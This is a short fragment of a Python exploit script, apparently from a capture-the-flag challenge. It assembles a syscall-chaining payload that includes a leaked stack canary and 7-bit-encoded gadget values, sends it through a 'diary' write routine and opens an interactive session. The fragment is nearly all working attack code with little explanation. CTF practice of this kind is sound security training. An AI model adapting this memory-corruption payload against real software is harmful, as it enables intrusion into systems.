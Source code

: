 ```python
    payload2 += encode_seven(p0r)
    payload2 += encode_seven(3)
    payload2 += encode_seven(syscall)
    payload2 += canary
    payload2 += encode_seven(40)        # r3
    payload2 += encode_seven(buf)       # r2
    payload2 += encode_seven(1)         # r1

    # write(1, buf, 40)
    # r3 = 40
    # r2 = buf
    # r1 = 1
    # r0 = 2
    # syscall
    payload2 += encode_seven(p0r)
    payload2 += encode_seven(2)
    payload2 += encode_seven(syscall)
    
    payload2 += b'\xf0'

    write_diary(b'a', b'\xf0', payload2)
    p.interactive()
```